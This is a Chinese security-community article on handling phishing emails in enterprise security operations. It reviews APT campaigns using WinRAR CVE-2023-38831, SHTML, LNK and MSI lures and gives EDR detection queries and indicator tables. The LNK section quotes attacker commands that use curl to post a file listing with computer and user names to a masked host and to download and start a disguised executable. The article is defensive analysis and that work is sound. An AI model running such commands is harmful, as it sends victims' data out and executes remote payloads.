





# 运营视角下钓鱼邮件的处理和预防 - 先知社区

运营视角下钓鱼邮件的处理和预防

- - -

#### 00X0 前言

- - -

看完奇安信的 2023 年的 APT 报告后，发现 APT 组织常规的手段还是以钓鱼邮件为主。而我有幸作为跨国企业安全团队的一员，有幸参与到了在复杂域环境与跨地区情况下的安全运营人员的日常生活。因为笔者所处的企业经常受到钓鱼攻击，且企业的 XX 域监控和 XX 态势感知的检测报告当中，钓鱼攻击和挖矿病毒常常位于前列，这个时候钓鱼攻击的处理邮件的优先级就非常高了。

#### 00X1 钓鱼邮件浅析

- - -

通过阅读《奇安信的 2024APT 报告》后，我们选取了若有代表性的钓鱼邮件作为案列，让大家了解钓鱼邮件的基本攻击流程。那什么是钓鱼邮件呢？答：钓鱼邮件是一种网络攻击手段，指的是攻击者通过发送伪装成合法、可信的电子邮件来欺骗企业人员，以获取他们的敏感信息或进行其他恶意活动。钓鱼邮件通常会伪装成来自可信来源的邮件，引诱目标点击链接、下载附件或提供隐私信息。钓鱼邮件是企业经常遇见的网络攻击方式，企业人员需要保持警惕，学会识别和防范钓鱼邮件，以保护企业的信息和网络安全。

近几年来由于钓鱼邮件武器化，引发了多种威胁，包括网络钓鱼、商业电子邮件泄露 (BEC)、恶 意软件、勒索软件等。邮件的安全性取决于安全设备（邮件网关、EDR、态势感知......）的安全检测，但是企业环境下如何平衡效率\\安全（如果要保证邮件安全就需要实时监控邮件网关流量和扫描邮件内容，但是这样就会导致邮件到达存在延迟），这就比较考验企业安全运营人员的功底了。

##### APT-毒云藤-WinRAR 漏洞（CVE-2023-38831）

最近几年，毒云藤一直沿用相同的攻击方式，即通过入侵国内 IOT 设备作为代理，然后向国内高校、政府、科研等单位发送鱼叉邮件。其主要目的是窃取目标邮箱的账号密码。毒云藤利用 WinRAR 漏洞 CVE-2023-38831 的 EXP，对国内研究国际战略的学者进行了鱼叉邮件攻击。这一漏洞公布仅四五天，毒云藤组织就利用了它，再次展现了其一贯的攻击流程（如下图所示：[链接](https://mp.weixin.qq.com/s/y_BDdmDFQk8DJhwDMs0JaA)）。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240209140227-cd4a2726-c710-1.png)

并且毒云藤选用了国内红队常用的开源 Loader 作为第一阶段载荷，用来混淆分析人员的判断，但该操作相当于在免杀的 Shellcode 外层套了一层不免杀的 Loader 导致其实际攻击效果很差。

##### APT-摩耶象-SHTML 诱饵

今年，APT-Q-41 展现出了较强的迷惑性。在四月份之后，该团伙开始放弃之前钓鱼架构中常用的**netlify.app**、**000webhostapp.com**等动态域名作为基础设施，并开始在附件中使用新型钓鱼框架。摩耶象在获取账户密码后，APT-Q-41 开始向大量的@xxx.com 邮箱账户投递 SHTML 诱饵，其中仿冒的 Outlook 登录页面引起了安全人员的注意（如下图所示：[链接](https://mp.weixin.qq.com/s/y_BDdmDFQk8DJhwDMs0JaA)）。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240209135853-4e19380c-c710-1.png)

SHTML 最终会将攻击目标输入的账号密码上传到第三方网站中，后续我们扩线的时候发现大量同源 的 SHTML，大部分都是在出于经济动机的钓鱼活动中使用。今年 APT29 就利用宝马汽车广告进行网络钓鱼攻击，其中就融合了多种钓鱼手段。APT29 投递的初始载荷为 Word 文档，目标如果点击里面的链接就会被重定向到被 APT29 攻陷的合法网站，并且诱导目标下载网站上托管的恶意文件，当目标下载文件之后便会启动后续恶意软件（流程[链接](https://unit42.paloaltonetworks.com/)，如下图所示）。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240209135915-5b01a1e4-c710-1.png)

##### APT-摩诃草 - LNK 诱饵

摩诃草（Patchwork）组织 2023 年仍在孜孜不倦的通过鱼叉邮件投递 LNK 诱饵，并使用多种语言 (C++、rust、dotnet) 编写 Loader 去加载 BADNEWS 以实现免杀的效果（流程图如下图所示）。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240209135950-6fa5b7a2-c710-1.png)

在 LNK 攻击中，摩诃草通常会构造一个看似正常的 LNK 文件，并将其传递给目标。当目标双击打开这个 LNK 文件时，Windows 操作系统会解析 LNK 文件并执行其中的命令。摩诃草利用这一特性，将恶意代码嵌入到 LNK 文件中的特殊属性中，从而达到对目标系统进行攻击的目的。

##### APT-蔓灵花-MSI 安装包

在 2023 年下半年，蔓灵花对缅北发生的内战有着浓厚的兴趣，于是入侵了缅甸驻华使馆并收集相关情报，同时也改进了 CHM 样本后续的执行链，计划任务的内容从下发 MSI 并执行改为执行 CMD 命令（如下图所示：[链接](https://mp.weixin.qq.com/s/y_BDdmDFQk8DJhwDMs0JaA)）。但是蔓灵花在 2023 年的活动当中，依然使用鱼叉式钓鱼邮件投递的恶意安装包，利用 MSI 文件规避检测，而 MSI 文件中通常搭载蔓灵花的 wmRAT 木马。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240209140018-808a7e22-c710-1.png)

##### APT-未知 - 驱动白名单

在奇安信年终报告中，奇安信威胁情报中心披露了一个未知组织。经过一年多的跟踪威胁情报中心发现，该组织的主要攻击目标为朝鲜和中国。并且发现朝鲜地区的出口 IP 请求过该组织的基础设施，投递的诱饵内容大部分都来自于朝鲜官媒劳动新闻。在 2023 年，该组织就开始投递 CHM 诱饵，使用了英伟达的白名单，执行流程如下释放名为 nvspcaps1.db 的 Loader，该 Loader 会调用 CryptUnprotectDate 函数实现一机一马，最终内存 加载 MSF 木马。（如下图所示：[链接](https://mp.weixin.qq.com/s/y_BDdmDFQk8DJhwDMs0JaA)）。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240209140035-8aa121cc-c710-1.png)

综上所述，网络钓鱼会对企业造成严重的威胁。攻击针对某个特定的行业，打造独有的邮件钓鱼攻击武器，以窃取账户凭据、访问企业敏感和有价值的数据以及运行挖矿病毒。钓鱼邮件可以瘫痪企业数天或数周的网络，并且利用窃取和加密数据在暗网售卖的方式，勒索企业大量资金，从而对企业造成巨大的损失。在企业安全防护当中，电子邮件通常被视为发起网络威胁的重要媒介（前提是企业的知产梳理做的相对完善，Nday 漏洞及时加固），企业需要加强针对网络钓鱼的防护。

#### 00X3 钓鱼邮件研判

- - -

笔者一开始面对钓鱼邮件的警报的时候，通常是发个邮件去提醒受到攻击的同事，而然后抄送报告给安全部门和对应部门。但是作为一个巨大跨国企业，一天的工作量与钓鱼邮件提醒的时效性来说，这无疑是无用功。我们如何去判断这个钓鱼攻击是否为误报，是我们安全运营人员首先要去解决的问题。我们首先可以通过观察邮件内容去判定（如下图所示），其次通过提取邮件特征去匹配规则进行检测。

> 1.  发件人身份验证：仔细检查邮件的发件人地址和域名，验证其真实性。注意查看拼写错误、额外的字符或数字等迹象，这可能是伪造的标志。
> 2.  邮件内容分析：仔细阅读邮件内容，查看是否存在语法错误、拼写错误或语言不通顺的问题。钓鱼邮件通常会有明显的语言或内容上的瑕疵。
> 3.  链接和附件检查：仔细检查邮件中的链接和附件，悬停在链接上查看链接的实际 URL 地址，确保它与邮件内容相关且安全。不要下载或打开来自不可信来源的附件。
> 4.  钓鱼网站识别：如果邮件中包含链接，确保该链接指向一个真实、安全的网站。注意检查 URL 中的拼写错误、额外的字符或数字等。可以使用安全工具或在线服务来验证链接的可信度。
> 5.  隐蔽的社交工程：注意邮件中是否存在企图引起用户紧张、恐惧或利用社交工程手法获取个人信息的内容。攻击者可能冒充高级管理人员、IT 支持人员等，要求用户提供敏感信息或执行危险操作。
> 6.  监测和报告：建立有效的安全监测机制，及时检测和报告可疑邮件。

安全运营人员可以通过 APT 报告分析钓鱼邮件，可以获得的研判技巧和研判思路。通过这些思路，我们可以提取出 APT 常用的钓鱼邮件的攻击流程和特征。通过这些特征我们可以联动 IOC 和 ONSIT，针对安全设备上的告警信息进行研判，从而大大降低安全设备的误报率，从而减轻安全人员的负担，提高工作效率。

##### APT-WinRAR 漏洞（CVE-2023-38831）- 特征

钓鱼邮件利用 WinRAR 创建双文件扩展名是该方法的独有的特征。安全运营人员可以通过 EDR 等设备，去查找 WinRAR 创建的具有双扩展名和空格的行为日志，这可能是利用 CVE-2023-38331 进行钓鱼攻击的特征。

```bash
label=File label="Create" label="Overwrite" path="*\AppData\Local\Temp\Rar$*"   
|process regex("(?P<double_extension>(\.[a-zA-Z0-9]{1,4} \.[a-zA-Z0-9]{1,4}))", file)   
|filter double_extension=*  
|chart count() by "process", path, file, double_extension
```

像 WinRAR 这样的文件压缩工具创建 cmd、PowerShell 子进程是不常见的和可疑的。但是，钓鱼邮件在成功利用该漏洞后，恶意负载可能会生成这些进程来执行任意代码（例如：钓鱼邮件运行阶段）。我们可以查找 WinRAR.exe 生成的可疑子进程和文件路径：%APPDATA%\\Nvidia\\xxx.ocx 来判定是否为钓鱼邮件。

```bash
label= "Process" label= "Create" parent_process="*\winRAR.exe" 
"process" IN ["*\cmd.exe", "*\cscript.exe", "*\mshta.exe", "*\powershell.exe", 
"*\pwsh.exe", "*\regsvr32.exe", "*\rundll32.exe", "*\wscript.exe"]
```

##### APT-SHTML 诱饵 - 特征

| SHTML 诱饵特征 | 钓鱼邮件概率 |
| --- | --- |
| 非企业正式公文格式 | 90% |
| 邮件内容中的语法错误 | 50% |
| 可疑电子邮件地址 | 90% |
| 可疑登录页面 | 90% |
| 附带吸引眼球的文档 | 90% |
| 附带可疑 URL 链接 | 70%（大概率是灰产） |

##### APT-LNL 诱饵 - 特征

| CMD |
| --- |
| dir "%public%\\Documents" > %public%\\music\\logs.lgo & curl -X POST -F "file=@C:\\users\\public\\music\\logs.lgo" ht^tp^s://XXXX.co^m/ank.php?ka=%computername%\_\_%username% |
| curl -o %public%\\Documents\\svchost2.png [https://XXXX.com/mwvcis.png](https://xxxx.com/mwvcis.png) copy %public%\\Documents\\svchost2.png %public%\\Documents\\svchost2.exe |
| start %public%\\Documents\\svchost2.exe |

命令解读：

> 1.  通过**dir 命令**将公共文件夹中**Documents 目录**下的文件和文件夹列表输出到 logs.lgo 文件中。
> 2.  使用**curl 命令**将 logs.lgo 文件以 POST 请求的形式发送到**ht^tp^s://XXXX.co^m/ank.php?ka=%computername%\_\_%username%**这个 URL（其中，%computername%表示计算机名称，%username%表示当前用户名）。
> 3.  使用**curl 命令**从**[https://XXXX.com/mwvcis.png](https://xxxx.com/mwvcis.png)**下载文件，并将其保存为%public%\\Documents\\svchost2.png。
> 4.  使用**copy 命令**将**%public%\\Documents\\svchost2.png 文件**复制为**%public%\\Documents\\svchost2.exe 文件**。
> 5.  使用了**start 命令**来启动 **%public%\\Documents\\svchost2.exe**这个可执行文件。

##### APT-MSI 安装包 - 特征

| MSI 安装包特征 | 钓鱼邮件概率 |
| --- | --- |
| 将安装目录设置为 LocalAppDataFolder | 80% |
| 转储文件到安装目录 | 80% |
| 通过指定的命令行执行可执行文件 | 50% |
| 执行存储在二进制表中的 PE | 50% |
| 在安装目录中执行转储文件 | 80% |

小提示：在近两年的攻防演练中出现了不少针对 WPS 和国产邮件软件的 0day 攻击，企业微信、钉钉等 APP 因未及时跟进 Chromium 的安全升级，导致 CVE-2022-4262/CVE-2022-3038 两个 Nday 被用于钓鱼攻击；此外还有微信早年因未能及时跟进内置的 V8 引擎代码更新从而出现漏洞。可以预见未来与软件二次开发有关的攻击会越来越多，这样的攻击对于攻击者而言成本较低，因为相关漏洞的 EXP 已经开源，但在攻击效果上却是 0day 级别的。

#### 00X4 钓鱼邮件预防

- - -

电子邮件虽然不是实时通讯软件，但是企业员工还是普遍希望邮件足够迅速。如果他们让等待更长时间才能收到同事或客户发送的电子邮件，他们就会开始认为邮件设备可能出现了问题，对他们的工作造成了巨大的影响。所以说检测速度是邮件安全需要注意的一方面，而判断的准确性是另一方面。我们要尽可能避免将钓鱼邮件和不安全的附件传递给企业同事。

恶意附件（例如：Word 文档或压缩包等）检测每封邮件内容和附件是识别钓鱼邮件的唯⼀方法。运营人员需要具有在多个嵌套级别的邮件，进行深入分析并且检查每个单独元素是否存在威胁。安全设备检测必须递归地检查文件是否存在嵌入和隐藏的威胁，否则安全设备无法发挥应有的作用。但是，检查完并标记为良性的邮件，在交付给同事的时候需要具有完整的功能。

电子邮件和附件中包含的 URL 可能会导致传播恶意软件、勒索软件、APT 和其他威胁的恶意站点。安全运营人员可以根据已知恶意站点检查 URL、访问目标站点并递归扫描威胁、评估域名注册的时间和来源，并检查是否为相似域名等。对于企业来说，提高钓鱼邮件的检测效率至关重要。通过评估企业 DNS 记录中保存的关键电子邮件安全声明之间的特征等方法，可以通过设置安全策略识别许多类型的钓鱼邮件（例如：SPF（发件人策略框架）、DKIM（域名密钥识别邮件）、DMARC（基于域的消息身份验证、报告和⼀致性）和 DNSSEC（域名系统安全扩展）等)。

对于企业来说，以在收件箱之前为用户提供保护（也称为"预防模式"）的方式部署安全设备至关重要。**"预防模式"**可以确保每封电子邮件和链接在发送给用户之前都会经过扫描检测。另外⼀种方法是在检测模式下，先将电子邮件发送给用户，从用户的收件箱中提取电子邮件，在后台完成扫描，检测是否为钓鱼邮件。现在的钓鱼邮件防御不能完全依赖于基于签名的检测和静态检查。还需要安全运营人员利用安全设备主动扫描钓鱼邮件的内容，或者放入虚拟机当中实时检查。

#### 00X5 游民点评

- - -

关于安全运营这条路，我走得比较迷茫，是三分技术，七分管理，还是七分技术，三分管理。我还没有找到答案。但是我知道，安全运营的目标就是能够发现入侵事件及时止损，并为这个目标负责。诚哉斯言！安全运营工作的更多的是分析，判断和处置。通过上述针对钓鱼邮件案例的梳理，安全运营人员可以更好地识别和防范钓鱼邮件攻击。在收到可疑邮件告警时，应保持警惕，第一时间报告给相关部门，并且做好处置工作。

文章参考链接：

> [https://www.4hou.com/posts/zQNq](https://www.4hou.com/posts/zQNq)
> 
> [https://www.anquanke.com/post/id/227434](https://www.anquanke.com/post/id/227434)
> 
> [https://mp.weixin.qq.com/s/Tp90WH6nelYUjqXYo6q5UQ](https://mp.weixin.qq.com/s/Tp90WH6nelYUjqXYo6q5UQ)
> 
> [https://mp.weixin.qq.com/s/y\_BDdmDFQk8DJhwDMs0JaA](https://mp.weixin.qq.com/s/y_BDdmDFQk8DJhwDMs0JaA)
> 
> [https://encyclopedia.kaspersky.com/knowledge/what-is-phishing/](https://encyclopedia.kaspersky.com/knowledge/what-is-phishing/)
> 
> [https://www.cybereason.com/blog/threat-analysis-msi-masquerading-as-software-installer](https://www.cybereason.com/blog/threat-analysis-msi-masquerading-as-software-installer)
> 
> [https://www.trendmicro.com/en\_us/research/18/b/attack-using-windows-installer-msiexec-exe-leads-lokibot.html](https://www.trendmicro.com/en_us/research/18/b/attack-using-windows-installer-msiexec-exe-leads-lokibot.html)
